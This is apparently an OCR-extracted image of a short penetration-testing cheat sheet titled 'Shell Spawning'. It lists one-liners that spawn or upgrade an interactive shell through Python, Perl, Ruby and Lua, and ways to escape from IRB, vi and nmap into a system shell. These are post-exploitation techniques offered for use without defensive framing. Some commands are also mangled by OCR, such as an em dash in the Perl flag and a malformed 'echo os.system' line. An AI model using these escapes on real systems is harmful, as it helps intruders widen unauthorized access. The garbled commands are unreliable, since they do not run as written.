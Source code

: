 Shell Spawning
python -c 'import pty; pty.spawn("/bin/sh")'
echo os.system('/bin/bash')
/bin/sh -i
perl —e 'exec "/bin/sh";'
perl: exec "/bin/sh";
ruby: exec "/bin/sh"
lua: os.execute('/bin/sh')
(From within IRB)
exec "/bin/sh"
(From within vi)
:!bash
(From within vi)
:set shell=/bin/bash:shell
(From within nmap)
!sh
